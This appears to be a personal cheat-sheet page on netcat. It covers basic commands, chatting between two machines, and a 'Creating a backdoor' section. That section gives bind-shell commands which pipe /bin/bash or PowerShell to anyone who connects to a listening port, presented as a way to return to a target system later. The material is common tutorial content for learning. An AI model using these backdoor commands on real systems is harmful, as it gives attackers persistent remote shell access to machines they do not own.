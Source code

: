 #os/linux/tools/hacking

# NETCAT

| Command              | Description                                             |
| -------------------- | ------------------------------------------------------- |
| ip route get 8.8.8.8 | Get The IP Address                                      |
| nc -h                | Get Netcat Help                                         |
| nc -lvvp 4444        | Create Listener                                         |
| nc 192.168.1.35 4444 | Make Connection to the IP address on the specified Port |

1. 1.**
    
    # 1. Chatting
    
    **

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Netcat can also be used to chat between two users. We need to establish a connection before chatting. To do this we are going to need two devices. One will play the role of initiator and one will be a listener to start the conversation and so once the connection is established, communication can be done from both ends. First of all, we will use Windows 10 machine which will play role of Listener.Second we will use Kali linux machine which will play role of initiator. First, we will have to create a listener. We will use the following command to create a listener: 

## nc -lvvp 4444

# where,   
# [-l]: Listen Mode   
# [vv]: Verbose Mode {It can be used once, but we use twice to be more verbose}   
# [p]: Local Port 

Now, it’s time to create an initiator, for this we will just provide the IP Address of the System where we started the Listener followed by the port number. 

**NOTE:** Use the same port to create an initiator that was used in creating listener. 

## nc 192.168.1.35 4444 

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

1. 2.**
    
    # 2. Creating a backdoor
    
    **
    

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

### We can also create a backdoor using NC.

### To create a backdoor on the target system that we can come back to at any time.

## Command for attacking a Linux System. 

## nc -l -p 3556 -e /bin/bash 

## For Creating Backdoor for Windows system. 

## nc -l -p 3556 -e powershell

### This will open a listener on the system that will pipe the command shell or the Linux bash shell to the connecting system. 

## Make a Connection to the Remote Shell

## nc 192.168.1.35 3556 

sources

1. [https://www.geeksforgeeks.org/introduction-to-netcat/?ref=ml_lbp](https://www.geeksforgeeks.org/introduction-to-netcat/?ref=ml_lbp)
2. [https://www.maketecheasier.com/netcat-transfer-files-between-linux-computers/](https://www.maketecheasier.com/netcat-transfer-files-between-linux-computers/)
3. [https://superuser.com/questions/98089/sending-file-via-netcat](https://superuser.com/questions/98089/sending-file-via-netcat)